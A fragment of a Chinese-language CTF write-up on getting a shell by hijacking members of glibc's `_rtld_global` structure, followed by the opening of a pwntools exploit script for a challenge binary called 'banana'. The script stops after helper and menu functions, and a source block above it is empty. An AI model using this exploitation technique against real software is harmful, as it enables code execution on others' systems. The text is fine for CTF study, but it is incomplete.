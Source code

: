 ```c
```

按照上面的思路劫持`_rtld_global`结构体中的成员，从而执行函数

但是似乎并不能控制参数，只能通过one_gadget或者后门函数来获取shell

exp：

```python
#!/usr/bin/python

from pwn import *
import sys
context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='banana'
libc_name='/lib/x86_64-linux-gnu/libc.so.6'


libc=ELF(libc_name)
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('',)
    
def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(choice):
	sla('Your choice:', str(choice))

def add(idx,sz):
	cho(1)
	sla('Idx:', str(idx))
	sla("Size:", str(sz))

def show(idx):
	cho(2)
	sla('Idx:', str(idx))

def edit(idx, com):
	cho(3)
	sla('Idx:', str(idx))
	sla("context: ", com)

```